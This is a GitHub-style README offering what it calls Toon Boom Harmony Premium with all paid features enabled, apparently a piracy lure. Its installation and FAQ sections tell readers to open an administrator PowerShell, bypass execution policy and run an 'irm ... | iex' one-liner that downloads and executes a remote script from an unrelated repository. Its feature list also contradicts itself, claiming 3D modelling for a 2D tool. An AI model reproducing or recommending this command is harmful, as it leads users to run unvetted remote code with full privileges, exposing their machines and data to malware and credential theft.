

<div align="center">


<br>


# Toon Boom Harmony Premium Complete Edition
**2D animation · Rigging · Compositing**
<br>
**2D animation · Rigging · Compositing**
<br>
Premium · Pro · Complete · Windows



**Toon Boom Harmony Premium — rigging, cutout animation, compositing and export tools all enabled.**

</div>

---

> Animate series-quality 2D scenes — Harmony premium rigging and compositing tools enabled.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🎨 **3D production** — Modeling, rendering and animation tools enabled.
📦 **Local creative suite** — Works offline after setup.
🖥️ **Windows optimized** — Built for artist workstations.
📋 **Complete toolkit** — Assets and presets supported.
⚙️ **Pro workflow** — Suitable for studio pipelines.
✨ **Premium modules** — Paid creative features enabled.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 10 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 10 gb free space.
</details>


TAGS
toon-boom-harmony, toon-boom, harmony, 2d-animation, animation-software, rigging, cutout-animation, traditional-animation, storyboard-animation, cartoon-animation, toonboom, character-animation, animation-studio, 2d-cartoon, harmony-premium
